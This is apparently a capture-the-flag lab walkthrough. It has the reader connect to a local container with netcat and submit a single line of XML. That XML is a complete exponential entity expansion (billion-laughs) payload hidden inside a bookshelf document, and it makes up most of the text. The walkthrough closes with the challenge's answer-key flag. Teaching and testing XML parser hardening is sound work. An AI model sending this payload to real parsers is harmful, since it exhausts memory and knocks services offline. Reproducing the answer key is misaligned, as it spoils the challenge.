 # Walkthrough

Step 1. Connect to the container by issuing the following command:
   nc localhost 54321
Step 2. At the prompt for one line of XML, enter the XML on the following line to launch an exponential entity expansion attack:
<?xml version="1.0"?><!DOCTYPE bookshelf [<!ELEMENT bookshelf (book+)><!ELEMENT book (author, name, desc)><!ELEMENT author (#PCDATA)><!ELEMENT name (#PCDATA)><!ELEMENT desc (#PCDATA)><!ENTITY a "payload"><!ENTITY aaaaaaaaaaaaaaaaaaaaa "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;"><!ENTITY aaaaaaaaaaaaaaaaaaaaaa "&aaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaa;"><!ENTITY aaaaaaaaaaaaaaaaaaaaaaa "&aaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaa;"><!ENTITY aaaaaaaaaaaaaaaaaaaaaaaa "&aaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaa;"><!ENTITY aaaaaaaaaaaaaaaaaaaaaaaaa "&aaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaa;"><!ENTITY aaaaaaaaaaaaaaaaaaaaaaaaaa "&aaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaa;"><!ENTITY aaaaaaaaaaaaaaaaaaaaaaaaaaa "&aaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaa;"><!ENTITY aaaaaaaaaaaaaaaaaaaaaaaaaaaa "&aaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaa;"><!ENTITY aaaaaaaaaaaaaaaaaaaaaaaaaaaaa "&aaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaa;"><!ENTITY aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa "&aaaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaaa;">]><bookshelf><book><author>J. K. Rowling</author><name>Harry Potter</name><desc>A story of a boy and his magic powers.</desc></book><book><author>Charles Dickens</author><name>The Tale of Two Cities</name><desc>A story about two cities and friendship.</desc></book><book><author>Anonymous</author><name>XML Exponential Entity Expansion Attack</name><desc>&aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaaa;&aaaaaaaaaaaaaaaaaaaaaaaaaaaa;</desc></book></bookshelf>
When the usage of virtual memory reaches 1 GB, the flag is printed out on the screen.
Answer Key: CTF_Flag{Entity_Expansion_Attack_in_XML}
